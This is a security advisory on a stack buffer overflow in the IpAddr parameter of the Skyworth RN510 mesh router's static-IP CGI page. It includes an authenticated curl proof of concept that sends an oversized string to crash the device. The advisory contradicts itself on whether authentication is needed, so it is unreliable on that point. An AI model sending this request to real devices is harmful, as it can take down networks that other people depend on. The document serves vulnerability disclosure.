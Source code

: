 ========================================================
Authenticated  Stack Overflow in RN510 mesh Device
========================================================

. contents:: Table Of Content

Overview
========

Title :- Authenticated  Stack Overflow in RN510 mesh Device
CVE-ID:- Requested
Author:  Kaustubh G. Padwad
Vendor:  Shenzhen Skyworth Digital Technology Company Ltd.(http://www.skyworthdigital.com/products)
Products:
	 1. RN510 with firmware V.3.1.0.4 (Tested and verified)
Potential 
	2.RN620 with respective firmware or below 
	3.RN410 With Respective firmwware or below.

Severity: High--Critical

Advisory ID
============
KSA-Dev-0010

About the Product:
==================

* RN510 dual-band wireless AC2100 access point delivers high-speed access for web surfing and HD video streamings. Integrated with two gigabit LAN ports, and a dual-band AP which supports 2x2 802.11n(300Mbps) and 4x4 802.11ac (1733Mbps) concurrently, RN510provides a stable & reliable high speed wired and wireless connectivity for home user and SOHO users. Utilizing state of art EasyMesh solution, two or more RN510 units could be easily teamed upwith Skyworth ONT gateway (e.g. GN543) and form an automatically organized network. RN510 could support either wired line backhaul or wireless backhaul to other mesh node. User could enjoy a wonderful zero-touch, robust and failure auto recovery, seamless connected wireless home networking experience.
RN510 uses a system of units to achieve seamless whole-home Wi-Fi coverage, eliminate weak signal areas once and for all. RN510 work together to form a unified network with a single network name. Devices automatically switch between RN510s as you move through your home for the fastest possible speeds. A RN510 Dual-pack delivers Wi-Fi to an area of up to 2,800 square feet. And if that’s not enough, simply add more RN510 to the network anytime to increase coverage. RN510 provides fast and stable connections with speeds of up to 2100 Mbps and works with major internet service provider (ISP) and modem. Parental Controls limits online time and block inappropriate websites according to unique profiles created for each family member. Setup is easier than ever with the Skywifi app there to walk you through every step.

Description: 
============
An issue was discovered on Shenzhen Skyworth

A long Text to the IpAddr function allows remote attackers to cause a denial of service (segmentation fault) or achieve unauthenticated remote code execution because of control of registers.


Additional Information
========================
The value of IpAddr under /cgi-bin/app-staticIP.asp function is not getting sanitized,so passing too much junk data to the IpAddr parameter triggers to the SIGSEGV segmentation fault in device, post research it
was possible to control the registers.A Successful exploitation could leads to unauthenticated remote code execution on device.


[Affected Component]
IpAddr function on page /cgi-bin/app-staticIP.asp inside the boa web server implementation.

------------------------------------------
[Attack Type]
Remote
------------------------------------------
[Impact Code execution]
true
------------------------------------------
[Impact Denial of Service]
true

------------------------------------------
[Attack Vectors]
Remote code execution by running the poc.py against the target ip address.

[Vulnerability Type]
====================
Buffer Overflow,Exec

How to Reproduce: (POC):
========================

One can use below exploit
curl -i -s -k -X $'POST' \
    -H $'Host: device_IP' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://device-ip/cgi-bin/app-staticIP.asp' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 500' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'SESSIONID=valid_cookie; UID=username; PSW=password' \
    --data-binary $'hEntry0=-1&hEntry1=-1&hEntry2=-1&hEntry3=-1&hEntry4=-1&hEntry5=-1&hEntry6=-1&hEntry7=-1&hEntry8=-1&delete_flag=0&add_flag=1&staticNum=0&emptyEntry=0&tmpStartIp=192.168.2.33&tmpPoolCount=32&dhcpEthStart=192.168.2.33&dhcpEthEnd=32&ethSubnetMask=255.255.255.0&IpAddr=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&MACAddr=AA%3ABB%3ACC%3ADD%3AEE%3AFF' \
    $'http://device_ip/cgi-bin/app-staticIP.asp'


Mitigation
==========

[Vendor of Product]
Shenzhen Skyworth Digital Technology Company Ltd.(http://www.skyworthdigital.com/products)

Disclosure: 
===========
19-Jan-2021:- reported this to vendor
19-Jan-2021:- Requested for CVE-ID


credits:
========
* Kaustubh Padwad
* Information Security Researcher
* kingkaustubh@me.com
* https://s3curityb3ast.github.io/
* https://twitter.com/s3curityb3ast
* http://breakthesec.com
* https://www.linkedin.com/in/kaustubhpadwad
